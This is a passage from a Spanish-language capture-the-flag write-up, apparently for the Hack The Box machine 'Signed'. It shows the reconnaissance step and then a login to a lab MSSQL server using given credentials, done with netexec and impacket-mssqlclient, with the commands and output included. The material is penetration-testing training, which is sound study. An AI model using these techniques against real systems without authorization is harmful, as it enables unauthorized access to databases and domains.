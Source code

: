 <br>

Tenemos bastante información:
* Confirmamos que estamos ante un **AD**, pues la versión del **servicio MSSQL** es **Microsoft SQL Server 2022**.
* También sabemos que es una máquina **AD** porque el escaneo nos muestra su dominio, que vamos a registrar en el archivo `/etc/hosts`:
```bash
echo "10.10.11.90 signed.htb DC01.signed.htb" >> /etc/hosts
```
Entonces toda la intrusión será por el **servicio MSSQL**, pues igual tenemos un usuario y contraseña que podemos usar.

Vamos a probar esas credenciales.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Analisis" style="text-align:center;">Análisis de Vulnerabilidades</h1>
</div>
<br>


<h2 id="MSSQL">Enumeración del Servicio MSSQL</h2>

Primero que nada, comprobemos que las credenciales funcionan con la herramienta **netexec**:
```bash
nxc mssql 10.10.11.90 -u 'scott' -p 'Sm230#C5NatH' --local-auth
MSSQL       10.10.11.90     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:SIGNED.HTB)
MSSQL       10.10.11.90     1433   DC01             [+] DC01\scott:Sm230#C5NatH
```
Excelente, si funcionan.

Usemos la herramienta **mssqlclient** de la **suit de Impacket** para conectarnos al **MSSQL**:
```batch
impacket-mssqlclient 'signed.htb/scott:Sm230#C5NatH'@10.10.11.90
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (scott  guest@master)>
```
Estamos dentro.

Entramos como un **usuario guest** en la base de datos e igual lo comprobamos con la siguiente query:
```batch
SQL (scott  guest@master)> select user_name();
        
-----   
guest
```
